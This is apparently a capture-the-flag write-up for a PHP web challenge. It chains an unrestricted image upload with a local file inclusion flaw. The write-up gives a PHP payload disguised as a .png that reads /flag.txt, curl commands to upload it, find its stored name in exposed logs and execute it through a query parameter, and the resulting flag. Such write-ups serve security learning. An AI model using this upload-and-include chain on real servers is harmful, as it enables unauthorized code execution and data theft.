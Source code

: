 ![Pasted image 20250228211743](pictures/Pasted%20image%2020250228211743.png)

check .zip file:

upload.php
#### **Unrestricted File Upload**

I can upload a file with a .png extension and put some PHP code inside.
![Pasted image 20250228222819](pictures/Pasted%20image%2020250228222819.png)
#### **Local File Inclusion (LFI)**

![Pasted image 20250228223154](pictures/Pasted%20image%2020250228223154.png)

With the LFI vulnerability, I can execute an arbitrary file

#### **Step 1: Upload the PHP File**

Create a file named `exploit.png` containing the following PHP code:

```php
<?php echo file_get_contents("/flag.txt"); ?>
```

![Pasted image 20250228220651](pictures/Pasted%20image%2020250228220651.png)

Then, upload it using `curl`:

```bash
curl -X POST -F "image=@exploit.png" http://challenge.ctf.games:32025/upload.php
```

![Pasted image 20250228220817](pictures/Pasted%20image%2020250228220817.png)
#### **Step 2: Find the Uploaded File Name**

Log.php:
![Pasted image 20250228221906](pictures/Pasted%20image%2020250228221906.png)
1. Access the server logs:
```bash
    curl http://challenge.ctf.games:32025/logs/site_log.txt
```

![Pasted image 20250228221255](pictures/Pasted%20image%2020250228221255.png)

2. Extract the filename:

```bash 
FILENAME="67c2252db47f9_exploit.png"
```

#### **Step 3: Execute the PHP Code via LFI**

Use the Local File Inclusion (LFI) vulnerability to execute the uploaded file:

```bash
curl "http://challenge.ctf.games:32025/conspiracy.php?language=uploads/67c2252db47f9_exploit.png"
```
- The PHP code will execute, and the flag will be displayed in the response.

![Pasted image 20250228222243](pictures/Pasted%20image%2020250228222243.png)
```
flag{6558608db040d1c64358ad536a8e06c6}
```
